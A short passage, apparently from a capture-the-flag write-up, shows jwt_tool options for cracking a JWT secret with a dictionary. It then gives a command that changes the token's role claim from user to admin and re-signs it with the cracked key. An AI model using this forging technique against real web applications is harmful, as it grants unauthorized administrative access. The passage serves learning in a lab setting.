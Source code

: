 **Options:**
- -C = Crack
- -d &lt;PATH/TO/DICTIONARY&gt; = Dictionary to be used

**Output:**
![crackedjwtjwttool](./attachments/Chall7/jwttoolcrack.png)

Now, we need to **tamper the original token** from <code>role: user</code> to <code>role: admin</code>, then **sign the token using the retrieved secret key**:
```
(venv) jwt_tool$ python3 jwt_tool.py <INSERT-JWT> -T -S hs256 -p "<INSERT-SECRET-KEY>"
```
